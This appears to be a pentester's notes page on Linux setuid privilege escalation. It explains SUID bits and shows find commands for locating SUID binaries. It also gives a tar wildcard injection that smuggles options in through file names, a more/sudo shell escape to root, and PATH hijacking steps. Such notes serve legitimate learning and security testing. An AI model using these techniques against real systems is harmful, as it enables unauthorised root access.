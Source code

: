 ```yaml
---
id: exploit_setuid_binaries
aliases:
  - SETUID
tags:
  - privilege_escalation
  - linux
---
```


## Usage:
The setuid/setgid (SUID/SGID) bits allows the binary to run with the privileges of the user/group owner instead of those of the user executing it. They can be spotted with the s or S permission in the file user or group owner permissions (i.e. ---s--s---). When the file permissions features an uppercase S instead of a lowercase one, it means the corresponding user or group owner doesn't have execution rights. 
> [!WARNING]
> - Just like capabilities, setuid and setgid bits are unset when a file is copied with cp or when its content changes.
> - Some partitions of the UNIX file system can be mounted with the nosuid option. In this case the setuid and setgid bits are ignored for binaries placed inside those partitions. It is a common good practice for tmpfs partitions like /tmp or/run. Searching the /proc/mounts pseudo-file for a nosuid flag can help find these partitions.

## Find SETUID:
- `sudo -l`
- find:
```bash
find $starting_path -perm -u=s -type f 2>/dev/null

# Or in octal mode
find $starting_path -perm -4000 -type f 2>/dev/null
  ```

## Exploit SETUID:
### Living off the land:
> [!WARNING]
> Check if the binary is in [GTFOBins](https://gtfobins.github.io/gtfobins/) for exploitation techniques
#### Examples:
  ##### Using [shell_wildcards](hack/vulnerabilities/shell_wildcards.md) and tar  
  - Imagine a scenario where a script backups a directory (that we can control) on the server each hour using tar like this :
   
       ```bash
       !/bin/bash
       mkdir -p /backups/
       cd /var/www/html/ && tar cvzf /backups/backup_$(date +%Y_%m_%d_%Hh%M).tar.gz *
       ``` 

  - To use these options in our exploit, we just need to create these two files in our directory, as well as the exploit.sh file, containing the command we want to run when we trigger the execution :
      ```bash 
      echo '' > '--checkpoint=1'
      echo '' > '--checkpoint-action=exec=sh exploit.sh'

      $ ls -lha 
      total 88K
      drwxrwxr-x 2 user user 4,0K avril 27 22:32 .
      drwxrwxrwt 89 user user 76K avril 27 22:31 ..
      -rw-rw-r-- 1 user user 0 avril 27 22:31 file1
      -rw-rw-r-- 1 user user 0 avril 27 22:31 file2
      -rw-rw-r-- 1 user user 1 avril 27 22:31 '--checkpoint=1'
      -rw-rw-r-- 1 user user 1 avril 27 22:32 '--checkpoint-action=exec=sh exploit.sh'
      -rwxrwxrwx 1 user user 784 avril 27 22:32 exploit.sh   
      ```
 ##### Using `more` and `sudo` :
  - Let's take an example, with this sudo configuration :
      ```bash
      $ sudo -l
      [sudo] password for user: 
      Matching Defaults entries for user on PC1:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
      ```
  - User user may run the following commands on PC1:
     `(ALL : NOPASSWD) /usr/bin/more /var/log/apache2/access.log`

  - In this case user can run the more command, but only to read a specific log file /var/log/apache2/access.log as root without password (NOPASSWD flag) :
     `sudo -u root /usr/bin/more /var/log/apache2/access.log`

  - You can assume this would be safe right ? Unfortunately, it's not. The more command has various useful options, one of them is !. When you're in more and you type an exclamation mark followed by the path to a binary file, you can execute it in a subprocess. For example if you type !/bin/sh in more, you will open a shell as the owner of the parent more process !:

     ```bash
      $ sudo -u root /usr/bin/more /var/log/apache2/access.log
      File content line 1
      File content line 2
      ...
      File content line n
      ------------------------
      !/bin/sh
      # 
      uid=0(root) gid=0(root) groups=0(root)
      #
      ```

### Relative path calls:
  1. Usage:
    - The SETUID can be exploited if it makes calls via relative starting_path
  2. Discovery:
    - It can be discovered with `strace` command
  3. Exploitation:
    - Create an exploit and name it the same as the command called by the SETUID
    - Put the exploit path in the $PATH env variable
    - Now when the SRYUID will make the call it will search for it in PATH and execute the exploit
